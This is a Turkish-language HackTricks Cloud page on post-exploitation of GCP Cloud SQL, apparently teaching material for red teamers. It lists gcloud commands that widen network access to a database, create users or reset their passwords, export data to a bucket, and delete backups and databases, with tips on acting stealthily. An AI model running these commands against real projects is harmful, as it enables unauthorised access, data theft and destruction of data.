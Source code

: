 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Veritabanlarına bağlanmak için **sadece veritabanı portuna erişim** ve **kullanıcı adı** ile **şifreyi** bilmeniz yeterlidir, herhangi bir IAM gereksinimi yoktur. Bu nedenle, veritabanının bir genel IP adresine sahip olduğunu varsayarsak, erişim sağlamak için kolay bir yol, izin verilen ağları güncelleyip **kendi IP adresinizi erişime açmaktır**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Aynı zamanda veritabanının **yedeklerini bozmak** için **`--no-backup`** kullanmak da mümkündür.

Bu gereksinimler olduğundan, **`cloudsql.instances.connect`** ve **`cloudsql.instances.login`** izinlerinin ne için olduğunu tam olarak bilmiyorum. Eğer biliyorsanız bir PR gönderin!

### `cloudsql.users.list`

Veritabanının **tüm kullanıcılarının listesini** al:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Bu izin, **veritabanında yeni bir kullanıcı oluşturmayı** sağlar:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Bu izin, veritabanı içinde **kullanıcıyı güncellemeye** olanak tanır. Örneğin, şifresini değiştirebilirsiniz:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Yedekler **eski hassas bilgileri** içerebilir, bu yüzden bunları kontrol etmek ilginçtir.\
Bir veritabanında **bir yedeği geri yükleyin**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Daha gizli bir şekilde yapmak için, mevcut çalışan veritabanlarında değil, verileri orada kurtarmak için yeni bir SQL örneği oluşturulması önerilir.

### `cloudsql.backupRuns.delete`

Bu izin, yedekleri silmeye olanak tanır:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Bir veritabanını** Cloud Storage Bucket'a aktarın, böylece oradan erişebilirsiniz:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Bir veritabanını içe aktar** (üzerine yaz) bir Cloud Storage Bucket'tan:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Bir veritabanını db örneğinden sil:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
